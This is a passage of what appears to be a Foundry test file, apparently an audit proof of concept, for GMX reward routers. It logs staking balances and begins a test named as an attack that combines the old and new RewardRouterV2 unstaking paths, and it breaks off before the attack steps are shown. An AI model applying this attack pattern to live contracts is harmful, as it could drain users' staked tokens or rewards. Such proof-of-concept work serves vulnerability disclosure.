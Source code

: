 ```solidity
        console.log("Unstake amount (baseStakedAmount / 2): ", unstakeAmount);

        console.log("Before unstaking.");
        _printValues(user);

        console.log("\n>>> Initial conditions");
    }

    function _printValues(address _account) public {
        uint256 stakedBnGmx = IRewardTracker(feeGmxTracker).depositBalances(_account, address(bnGmx));
        uint256 baseStakedAmount = IRewardTracker(stakedGmxTracker).stakedAmounts(_account);
        uint256 bnGmxAmount = bnGmx.balanceOf(_account);

        console.log("----- Status -----");
        console.log("baseStakedAmount  : ", baseStakedAmount);
        console.log("stakedBnGmx       : ", stakedBnGmx);
        console.log("bnGmxBalance      : ", bnGmxAmount);
        console.log("totalbnGmxAmount  : ", bnGmxAmount + stakedBnGmx);
        console.log("\n");
    }

    function test1OnlyUseRewardRouterV2Old() public {

        console.log("\n");
        console.log("=======================================================");
        console.log("When using only old rewardRouterV2!");
        console.log("=======================================================");
        console.log("\n");


        vm.prank(user);
        rewardRouterV2Old.unstakeGmx(unstakeAmount);

        _printValues(user);
    }

    function test2OnlyUseRewardRouterV2New() public {

        console.log("\n");
        console.log("=======================================================");
        console.log("When using only new rewardRouterV2!");
        console.log("=======================================================");
        console.log("\n");

        vm.prank(user);
        rewardRouterV2New.unstakeGmx(unstakeAmount);

        console.log("After unstaking.");
        _printValues(user);
    }

    function test3AttackCompoundingOldAndNew() public {

        console.log("\n");
        console.log("=======================================================");
        console.log("When using old rewardRouterV2 and new rewardRouterV2!");
        console.log("=======================================================");
        console.log("\n");

        vm.startPrank(user);

        console.log("-- Unstake only 1 wei using new rewardRouterV2 --");
```